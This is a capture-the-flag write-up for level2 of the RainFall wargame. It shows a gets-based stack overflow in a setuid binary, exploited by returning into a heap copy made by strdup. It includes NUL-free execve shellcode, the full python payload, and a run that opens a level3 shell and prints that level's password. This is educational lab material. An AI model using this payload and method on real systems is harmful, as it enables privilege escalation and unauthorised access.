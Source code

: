 # level2

According to `file` :

```bash
level2@RainFall:~$ file level2
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

So we know we want to spawn a shell while having the privilege of `level3`.

Let's analyse further with `objdump` :

```text
level2@RainFall:~$ objdump -Mintel -d level2

level2:     file format elf32-i386

...

080484d4 <p>:
 80484d4:       55                      push   ebp
 80484d5:       89 e5                   mov    ebp,esp
 80484d7:       83 ec 68                sub    esp,0x68
 80484da:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484df:       89 04 24                mov    DWORD PTR [esp],eax
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4]
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    eax,0x8048620
 804850c:       8b 55 f4                mov    edx,DWORD PTR [ebp-0xc]
 804850f:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048513:       89 04 24                mov    DWORD PTR [esp],eax
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    

0804853f <main>:
 804853f:       55                      push   ebp
 8048540:       89 e5                   mov    ebp,esp
 8048542:       83 e4 f0                and    esp,0xfffffff0
 8048545:       e8 8a ff ff ff          call   80484d4 <p>
 804854a:       c9                      leave  
 804854b:       c3                      ret    
 804854c:       90                      nop
 804854d:       90                      nop
 804854e:       90                      nop
 804854f:       90                      nop
```

Unlike *level2*, it does not have any existing code in the `.text` section to spawn a shell. In our exploit, we will have somehow to *add* additional code to spawn it. This is what we call a **shell code** : a small piece of code used as the payload in the exploitation of a software vulnerability.

In function `p`, the very unsafe `gets` get called again. Great, that is an wide open door for a **buffer overflow** : that means we can overwrite the return address of function `p` on the stack. But where should we return to ?

Remember when i talked about adding additional code. We can add this code in the initial buffer that `gets` uses, and modify the return address to point into our additional injected code that is located into the stack.

But there may be a problem using this technique in this particular setup, take a look at this snippet of instructions:

```
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4] <---
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
```

It performs a check on the return address `ebp + 0x4` !  Basically, it checks if the most significant byte of the return address is `0xb`, which would mean that we manipulated it so it points on the stack. This would prevent us from correctly redirecting the execution flow into our shellcode. If this check doesn´t pass, we jump to `0x8048527` :

```
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    
```

It echoes back when we just wrote into the buffer, and then proceed to duplicate the stack-allocated buffer into an heap-allocated region. Interesting ! So instead of modifying our return address so it points on our buffer that is allocated into the stack, we could modify it so it points into the heap-allocated region instead ! It will contains exactly the same data as it is duplicated.

The challange here is that our shell code must not include any NUL byte (`0x00`), since it will end prematurely `strdup` (remember that a C strings are always nul-terminated).

## Crafting the shellcode

Let's do some assembly to craft our shellcode, shall we ?

```asm
bits 32

section .text

global _start

_start:
    jmp .shell_define
.ret:
    pop ebx
    xor eax, eax
    mov ecx, eax
    mov edx, eax
    mov al, 0x0b
    int 0x80
.shell_define:
    call .ret
    shell db "/bin/sh", 0
```

This is a basic program that `execve` a shell. Note the trick to get the address of the string `/bin/sh` : at the beginning we immediately jump to a `call .ret`, which pushes the address of `/bin/sh` into the stack and jump to `pop ebx`, which pop the address of `/bin/sh` into the register `ebx`. This trick is used to dynamically get the address, since we do not know the exact address our shellcode will be injected.
Do note that we use the **relative** version of `jmp` and `call`, so we can indicate **offsets** instead of **absolute address**.

We are using x86 calling conventions and `int 0x80` to trap into kernel mode for the syscall.
Now, let's compile the source into an object file, and dump the `.text` section :

```bash
$> nasm -f elf32 shellcode.s
$> readelf --sections shellcode.o
There are 15 section headers, starting at offset 0x40:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [ 1] .text             PROGBITS        00000000 0002a0 00001a 00  AX  0   0 16
  ...

```

Offset is `0x2a0` into the file and the size of our shellcode is `0x1a`. We can use `xxd` to extract the bytes and `sed` with some regex to format into an hex litteral :

```bash
$> xxd -l0x1a -s0x2a0 -ps shellcode.o | sed -E 's/([a-f0-9]{2})/\\x\U\1/g'
\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00
```

This shellcode doesn't lead to any `0x00` expect for the last byte. `strdup` will stop there. Perfect !

## Putting it together

These are the remaining steps :

  - Find how big the buffer is to know how many bytes we have to fill until overwriting the return address.
  - Set the return address to the return address of `strdup`
  - Craft a python command to inject our **shellcode**, filling characters, and the new **return address**.

Using GDB and the disassembly, we find out that the buffer starting address is located at `ebp - 0x4c` :

```
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
```

 We need to fill 76 bytes (`0x4c` is 76 in decimal) + 4 bytes (because `ebp` has been pushed to the stack, we need to add an extra 4 bytes), to get to the return address location in the stack (that is, `ebp + 4`).

Let's find the return address of `strdup` by setting a breakpoint just after the call :

```
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp, 0x68
   ...
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
(gdb) b *0x0804853d
Breakpoint 1 at 0x804853d
(gdb) r
Starting program: /home/user/level2/level2 
foo
foo

Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008        134520840
```

Our shellcode is 26 bytes long. This is the layout of the bytes we will inject :

```
[shellcode][filling][return_address]
    26        54           4
```

This leads to the following python command :

```
python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'
```

We can then proceed to pwn this program :)

```bash
level2@RainFall:~$ (python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'; cat) | ./level2 
�
 [1����°
        �����/bin/sh
whoami
level3
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```